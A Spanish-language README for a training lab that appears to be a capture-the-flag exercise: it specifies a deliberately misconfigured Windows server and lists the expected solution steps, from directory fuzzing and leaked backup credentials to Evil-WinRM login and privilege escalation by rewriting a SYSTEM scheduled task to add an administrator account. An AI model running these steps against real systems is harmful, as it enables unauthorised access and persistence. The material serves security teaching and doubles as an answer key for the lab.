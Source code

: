 # Laboratorio FINAL BOSS

Este laboratorio pone a prueba la capacidad del alumno para identificar vulnerabilidades ocultas entre múltiples señuelos y explotar una mala configuración en un servidor Windows. A lo largo de este reto, los alumnos aprenderán a:

- Realizar reconocimiento web y fuzzing de directorios.
- Identificar archivos de respaldo expuestos.
- Conectarse a través de Evil-WinRM con credenciales encontradas.
- Escalar privilegios en Windows mediante una tarea programada vulnerable.
- Decodificar una flag oculta en base64.


## Especificaciones de la máquina 🖥️

- **Sistema:** Windows Server (GUI o Core con PowerShell)
- **Servicios activos:**
  - IIS (Puerto 80)
  - WinRM (Puerto 5985)
  - SSH (Opcional, señuelo)
  - FTP (Opcional, señuelo)
- **Sitio web:** Umbrella Corporation (sitio falso con señuelos LFI, SQLi)
- **Ruta del sitio:** `C:\inetpub\wwwroot`
- **Contenido vulnerable real:**
  - Carpeta: `/backup/web_backup.zip`
  - Contenido:
    ```php
    <?php
    $user = "wesker";
    $pass = "UmbrellaForever!";
    ?>
    ```
- **Usuario con acceso remoto:** `wesker`
- **Contraseña:** `UmbrellaForever!`
- **Script vulnerable:** `C:\Scripts\run.ps1` (editable por `wesker`)
- **Tarea programada:** `BackdoorScript` ejecuta `run.ps1` cada minuto como SYSTEM.
- **Flag:** `C:\Users\Administrator\Desktop\flag.txt`

### Credenciales de la máquina

```bash
hostname: finalboss-lab
username: Administrator
password: 4geeks-lab
```

## Pasos esperados por el alumno

1. **Realiza reconocimiento de red para identificar la máquina.**
   - Utiliza herramientas como `nmap`, `netdiscover` o `arp-scan`.
   - Debe detectar los puertos **80 (HTTP)** y **5985 (WinRM)** abiertos.

2. **Accede al sitio web desde el navegador.**
   - Visita `http://<IP>` y explora rutas como:
     ```
     index.php?page=home
     ```

3. **Realiza fuzzing de directorios.**
   - Usa herramientas como `gobuster` para descubrir:
     ```
     /backup/web_backup.zip
     ```

4. **Extrae las credenciales del archivo ZIP.**
   - El archivo `config.php` dentro del backup expone el usuario `wesker` y su contraseña.

5. **Conéctate por WinRM usando Evil-WinRM.**
   - Inicia sesión con:
     ```bash
     evil-winrm -i <IP> -u wesker -p 'UmbrellaForever!'
     ```

6. **Modifica el script vulnerable.**
   - Cambia el contenido de `C:\Scripts\run.ps1` por:
     ```powershell
     net user chris P@ssw0rd123 /add
     net localgroup administrators chris /add
     ```

7. **Espera 1 minuto a que se ejecute la tarea.**
   - El usuario `chris` será creado como administrador por el sistema.

8. **Conéctate como administrador.**
   - Accede usando:
     ```bash
     evil-winrm -i <IP> -u chris -p 'P@ssw0rd123'
     ```

9. **Lee la flag codificada.**
   - Ubicada en el escritorio del usuario `Administrator`:
     ```powershell
     type C:\Users\Administrator\Desktop\flag.txt
     ```

10. **Decodifica la flag.**
    - Copia el contenido base64 y decódificalo usando [CyberChef](https://gchq.github.io/CyberChef/) para obtener la flag en texto plano.




